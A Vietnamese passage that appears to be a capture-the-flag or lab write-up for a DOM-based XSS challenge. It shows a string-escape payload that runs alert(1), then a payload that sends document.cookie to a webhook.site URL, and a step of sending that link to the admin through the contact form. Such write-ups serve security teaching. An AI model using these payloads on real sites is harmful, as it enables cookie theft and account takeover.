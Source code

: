 Escape khỏi biến `number` và `alert`

payload: `';alert(1)//`

`var number = '';alert(1)//';` (number sẽ có giá trị `''` và được ngắt bằng `;` thực hiện `alert(1)` và comment những phần phía sau `//`)

![image.png](Images/image%2021.png)

alert thành công

Thử lấy cookie của bản thân và gửi về webhook

payload: `';document.location="[https://webhook.site/2d5ca3fe-362e-49fa-a0b5-9b1c76f8a280?data=](https://webhook.site/2d5ca3fe-362e-49fa-a0b5-9b1c76f8a280?data=)".concat(document.cookie)//` —> Thành công!

Vào phần contact và gửi url chứa payload lấy cookie cho admin 

![DOM_XSS_intro.png](Images/DOM_XSS_intro.png)
